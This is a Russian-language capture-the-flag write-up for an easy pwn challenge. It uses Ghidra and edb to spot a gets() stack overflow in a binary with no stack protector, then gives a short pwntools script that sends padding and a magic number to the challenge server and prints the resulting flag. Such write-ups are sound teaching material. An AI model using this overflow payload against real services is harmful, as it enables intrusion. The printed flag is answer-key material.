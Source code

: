 
# Сайт: forkbomb.ru 
# Автор: @mrvos (Vlad Roskov)
# Сложность: Easy

Решим последнюю задачу из категории MicCheck. Воспользуемся инструментом сстатического анализа Ghidra и отладчком edb. 
Посмотрим, как выглядит программа.

#### 1. Дизассемблированный вид:
![image](https://github.com/user-attachments/assets/e8c6059d-0544-46d1-a9e9-8f7100444bb5)

#### 2. Декомпилированный вид: 
![image](https://github.com/user-attachments/assets/ed5d5b5c-19c2-4059-98c5-d712661d15e8)

Изначально на стеке (до вызова функции `gets`) лежит два числа 0 и 0x29a, самым первым будет на стеке лежать содержимое массива `char local_38[8]`. Так, как в программе 
используется небезопасная функция `gets` и отсутствует `stack-protector` мы можем переполнить буфер и перезаписать число находящееся по смещению `[RBP + local_10]`, то есть 0x29a.
Сделаем это с помощью библеотеки `pwntools`.

```py
from pwn import * 

p = remote('109.233.56.90', 11586)
magic_num = 0xcc07c9
p.sendline(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" + p32(magic_num))
p.interactive()
```
Запустив код, получим флаг: <br />
![image](https://github.com/user-attachments/assets/3126a6ae-1d21-42e1-9469-9bf7b2085ad7)

Ответ: `spbctf{s4v3d_the_w0rld_fr0M_HELL}`




